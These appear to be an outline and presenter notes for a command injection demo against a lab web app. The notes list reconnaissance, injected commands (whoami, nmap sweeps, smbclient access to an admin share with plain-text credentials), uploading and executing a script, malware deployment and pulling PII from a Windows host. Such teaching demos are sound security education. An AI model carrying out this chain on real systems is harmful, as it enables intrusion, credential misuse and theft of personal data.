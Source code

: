 Command Injection Demo:
=======================

Academic:
=========
    Dig through DNS
    Port scan IPs
    Interrogate IP
	HTTP Watch/Fiddler/Postman/Wireshark
	Headers can indicate the stack


Commands:
==========
    Login: wier credentials to connect.hackysock.com
    Browse site… Exploratory work
    Over to the ping utility
        note the command injection flaw.
	    whoami
	    pwd
	    cd ../../
	    ls
	    ifconfig -a | grep netmask
	    which nmap
	    nmap -sP 192.168.122.1/24
	    namp -p 135 192.168.122.7
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:
====================
    Upload file: Note the path description
	Figure out where uploads go
	Upload script
	CHMOD script
		chmod 775 ../../hackable/uploads/pull_scripts.sh
	Execute script
		../../hackable/uploads/pull_scripts.sh
	Show all the scripts that were pulled down from GitHub

Drop to Shell:
=============
Show rest of demo and malware deployment.
	Execute pii script
	Show pii data pulled from windows machine
	


Wrap up:
========

Narrative